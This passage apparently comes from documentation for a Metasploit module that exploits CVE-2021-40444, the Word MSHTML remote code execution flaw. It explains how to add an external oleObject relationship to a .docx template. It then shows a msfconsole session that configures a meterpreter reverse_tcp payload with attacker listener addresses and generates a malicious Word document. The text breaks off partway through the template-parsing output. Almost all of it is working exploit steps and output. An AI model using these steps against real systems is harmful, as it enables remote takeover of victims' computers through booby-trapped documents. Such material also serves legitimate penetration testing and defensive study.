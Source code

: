     Check that `word/_rels/document.xml.rels` have good relation to the above thing:
    
    ```
    &lt;Relationship Id=&quot;rId32&quot; Type=&quot;http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject&quot; Target=&quot;TARGET_HERE&quot; TargetMode=&quot;External&quot;/&gt;
    &lt;Relationship Id=&quot;rId31&quot; Type=&quot;http://schemas.openxmlformats.org/officeDocument/2006/relationships/image&quot; Target=&quot;NULL&quot; TargetMode=&quot;External&quot;/&gt;
    ```
    
    Pack that to create word document to used as template.

2. Use the template with `msfconsole`.

    ```
    msf exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
    [*] Using configured payload windows/x64/meterpreter/reverse_tcp
    msf exploit(windows/fileformat/word_mshtml_rce) > set customtemplate /tmp/readme.docx
    customtemplate => /tmp/readme.docx
    msf exploit(windows/fileformat/word_mshtml_rce) > set srvhost 172.20.7.36
    srvhost => 172.20.7.36
    msf exploit(windows/fileformat/word_mshtml_rce) > set lhost 172.20.7.36
    lhost => 172.20.7.36
    msf exploit(windows/fileformat/word_mshtml_rce) > set verbose true
    verbose => true
    msf exploit(windows/fileformat/word_mshtml_rce) > run
    [*] Using URL: http://172.20.7.36:8080/c6RhuAJ0fcW7
    [*] Server started.
    [*] CVE-2021-40444: Generate a malicious docx file
    [*] Using template '/tmp/readme.docx'
    [*] Parsing item from template: [Content_Types].xml
    [*] Parsing item from template: _rels/
    [*] Parsing item from template: _rels/.rels
    [*] Parsing item from template: docProps/
    [*] Parsing item from template: docProps/core.xml
    [*] Parsing item from template: docProps/app.xml
    [*] Parsing item from template: word/
    [*] Parsing item from template: word/theme/
    [*] Parsing item from template: word/theme/theme1.xml
    [*] Parsing item from template: word/styles.xml
    [*] Parsing item from template: word/settings.xml
    [*] Parsing item from template: word/endnotes.xml
    [*] Parsing item from template: word/footnotes.xml
    [*] Parsing item from template: word/document.xml
    [*] Parsing item from template: word/media/
    [*] Parsing item from template: word/media/image11.jpg
    [*] Parsing item from template: word/media/image17.jpg
    [*] Parsing item from template: word/media/image4.png
    [*] Parsing item from template: word/media/image18.jpg
    [*] Parsing item from template: word/media/image10.jpg
    [*] Parsing item from template: word/media/image15.jpg
    [*] Parsing item from template: word/media/image19.jpg
    [*] Parsing item from template: word/media/image3.jpg
    [*] Parsing item from template: word/media/image7.jpg
    [*] Parsing item from template: word/media/image14.png
    [*] Parsing item from template: word/media/image1.png
    [*] Parsing item from template: word/media/image8.jpg
    [*] Parsing item from template: word/media/image9.jpg
    [*] Parsing item from template: word/media/image16.jpg
    [*] Parsing item from template: word/media/image12.jpg
    [*] Parsing item from template: word/media/image13.jpg
    [*] Parsing item from template: word/media/image2.png
    [*] Parsing item from template: word/media/image5.png
    [*] Parsing item from template: word/media/image6.jpg
    [*] Parsing item from template: word/_rels/